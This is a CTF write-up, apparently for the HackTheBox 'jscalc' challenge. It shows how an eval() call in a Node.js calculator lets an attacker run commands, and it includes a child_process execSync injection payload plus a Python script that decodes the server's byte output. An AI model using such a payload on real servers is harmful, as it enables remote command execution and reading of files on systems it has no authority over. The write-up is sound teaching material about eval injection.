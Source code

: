# TL;DR

# Detailed Writeup

When first running the website and browsing to it we see this page: 

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/jscalc/website.png)



We first hit the calculate button and it returns the value from the values that already put into the form:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/jscalc/calculate.png)

We can first try to put in some special characters like single or doubles quotes. We end up getting a blank error alert which is interesting:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/jscalc/special-character.png)

If you wanted you could fuzz for this parameter with a tool like FUFF or with burp/Zap's fuzzers. But at this point I had started to look at the source code that the was given with this challenge.

I had unzipped it and look at the directory with vs code. The two files that caught my eye the first was the index.js and more specifically the logic that handles passing the form data into a calculate function. The second, was calculatorHelper.js which contained the logic that handles the calculation:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/jscalc/index-js-file.png)

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/jscalc/calculatorHelper-js-file.png)

When examining the code for calculatorHelper.js we see a function that JavaScript (JS) uses that is known to be dangerous. Along with an anonymous function inside the eval statement.

I get into why the function is dangerous to use in the following header

## Why is eval() dangerous

# Getting Back to the CTF

Now that we know that is part of the logic is dangerous, we need to figure out the payload to try to read files on the system. 

After some searching around on the internet for a JS payload that executes commands and some testing I had arrived at the following payload:

```
(() => { return require('child_process').execSync('ls /'); })()
```

This payload had produced this result from the server:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/jscalc/bytes.png)

I used ChatGPT to write up a quick python script to decode the bytes from a file:

```
def decode_decimal_data(file_path):
    try:
        with open(file_path, 'r') as file:
            data = file.read().strip()
            decimal_values = data.split(',')
            decoded_text = ''.join(chr(int(value)) for value in decimal_values)
            return decoded_text
    except FileNotFoundError:
        print(f"Error: File '{file_path}' not found.")

# Example usage:
file_path = 'bufferData.txt'  # Replace with your actual file path
decoded_text = decode_decimal_data(file_path)

if decoded_text:
    print("Decoded data:")
    print(decoded_text)

```

And the code produced the following result after copying the bytes into a text file:

![alt text](https://github.com/GabeALopez/CTF-Writeups/blob/main/Images/HTB/jscalc/read-bytes.png)

Ok this is good, now we can read files on the server. 

After this, I "cated" out the flag.txt at the root directory, copied the bytes into the file, and ran the script to get the flag.

